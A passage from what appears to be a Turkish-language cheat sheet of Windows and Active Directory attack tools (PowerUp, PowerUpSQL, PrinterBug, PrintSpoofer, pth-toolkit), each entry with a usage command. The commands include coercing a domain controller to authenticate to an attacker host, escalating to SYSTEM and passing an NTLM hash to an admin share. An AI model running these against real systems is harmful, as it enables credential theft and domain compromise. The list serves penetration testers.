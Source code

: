 
## 57. PowerUp
**Kısa Tanım**: PowerShell script; local Windows privesc yollarını otomatik bulur (ör. hizmet yanlış izinleri).  
**Usage**:
```powershell
Import-Module .\PowerUp.ps1
Invoke-AllChecks
```
**GitHub**: [https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)

---

## 58. PowerUpSQL
**Kısa Tanım**: AD ortamındaki MSSQL sunucularını tespit ve istismar eden PowerShell modülü.  
**Usage**:
```powershell
Import-Module .\PowerUpSQL.ps1
Get-SQLInstanceDomain
```
**GitHub**: [https://github.com/NetSPI/PowerUpSQL](https://github.com/NetSPI/PowerUpSQL)

---

## 59. PrinterBug.py
**Kısa Tanım**: MS-RPRN interface üzerinden DC’nin SMB kimlik bilgisini dışarı yansıtma saldırısı.  
**Usage**:
```bash
python3 printerbug.py domain\\user:pass@dc01.domain.local attackerhost
```
**GitHub**: [https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py](https://github.com/dirkjanm/krbrelayx/blob/master/printerbug.py)

---

## 60. PrintSpoofer
**Kısa Tanım**: Spooler exploit (SeImpersonatePrivilege) ile local system hakları alma aracı.  
**Usage**:
```powershell
.\PrintSpoofer.exe -c "cmd.exe /c whoami"
```
**GitHub**: [https://github.com/0xFiend/PrintSpoofer](https://github.com/0xFiend/PrintSpoofer)

---

## 61. pth-toolkit
**Kısa Tanım**: Pass-the-Hash araçları (pth-smbclient, pth-winexe, pth-net, vb.) Samba’nın yamalı sürümleri.  
**Usage**:
```bash
pth-smbclient //10.0.0.10/C$ -U 'DOMAIN\\Administrator%aad3b435b5:NTLMHASH'
```
**GitHub**: [https://github.com/byt3bl33d3r/pth-toolkit](https://github.com/byt3bl33d3r/pth-toolkit)

---